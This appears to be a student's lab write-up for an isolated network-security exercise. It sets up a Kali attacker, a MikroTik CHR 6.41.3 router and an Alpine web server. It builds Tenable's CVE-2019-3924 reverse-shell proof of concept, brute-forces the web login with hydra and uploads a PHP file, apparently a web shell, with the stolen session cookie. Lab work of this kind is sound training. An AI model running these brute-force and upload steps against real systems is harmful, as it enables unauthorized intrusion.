

## Lab1&5

Setup:
- Kali Linux (attacker)
- alpline-lab5 (victim)
- Mikrotik CHR v 6.41.3

About Mikrotik CHR v 6.41.3:
CHR raw disk image downloaded form https://web.archive.org/web/20180328083525/https://mikrotik.com/download


Login: admin 
Password: `<empty string>`


KaliLinux as attacker host:
Download img from https://mac.getutm.app/gallery/kali-2023
And follow this guide https://docs.getutm.app/guides/kali/

The above steps were from lab 1, alpline-lab5 is specific for this paricular lab, installation process is the same as in previous labs. 

- Kali Linux ip -- 192.168.64.9
- Mikrotik CHR ip -- 192.168.64.16
- alpline-lab5 ip -- 10.42.3.100 (since i am doing this lab on macos)

First we open `192.168.64.16` in or browser, and we should see two interfaces:




Next we create interface lists to organize network interfaces into logical groups: "WAN" contains the ether3 (192.168.64.16/24) interface facing the NAT network where the Kali Linux attacker lives, "LAN" contains the ether2 (192.168.128.5/24) interface connecting to the Host-only network where the Alpine web server lives.


Next we configure NAT masquerading (so the Alpine server can access the internet for initialization)


And enable dude


Orther detailed configus, and overall expected CHR config is located in `chr_config.txt`

```
[admin@MikroTik] > export compact 
# may/04/2025 19:02:08 by RouterOS 6.41.3
# software id = 
#
#
#
/interface list
add name=WAN
add name=LAN
/interface wireless security-profiles
set [ find default=yes ] supplicant-identity=MikroTik
/dude
set enabled=yes
/interface list member
add interface=ether1 list=WAN
add interface=ether2 list=LAN
/ip address
add address=10.42.3.254/24 interface=ether2 network=10.42.3.0
/ip dhcp-client
add dhcp-options=hostname,clientid disabled=no interface=ether1
/ip firewall nat
add action=masquerade chain=srcnat out-interface-list=WAN
[admin@MikroTik] >  
```

Now, [exploit](https://github.com/tenable/routeros/blob/master/poc/cve_2019_3924/README.md)
Clone `https://github.com/tenable/routeros`

```
sudo apt install libboost-dev libboost-regex-dev libssl-dev build-essential cmake
cd routeros/poc/cve_2019_3924/
```

Here we first need to moddify the exploit 

```
mkdir build
cd build
cmake ..
make
./nvr_rev_shell --help # ot check
```

Now go to `http://10.42.3.100/init.php` and i enter my ucu mail.


Now we need to find the password

```
hydra -L user_list.txt \
-P 10-mil.txt \
-V \
10.42.3.100 http-post-form '/login.php:username=^USER^&password=^PASS^&wp-submit=Log+In:F=Invalid username'
```

And here it is
```
[80][http-post-form] host: 10.42.3.100   login: admin   password: spiderman
[STATUS] attack finished for 10.42.3.100 (valid pair found)
```

Now we can log in


```
curl -X POST http://10.42.3.100/login.php \
  -d "username=admin&password=spiderman" \
  -c cookies.txt \
  -v
```

Cookie, session id: 8f14e45fceea167a5a36dedd4bea2543

With this session id we can now upload files

```
curl -X POST http://10.42.3.100/api_upload.php \
  -H "Cookie: PHPSESSID=8f14e45fceea167a5a36dedd4bea254" \
  -H "User-Agent: curl/8.5.0" \
  -F "file=@a.php"
```
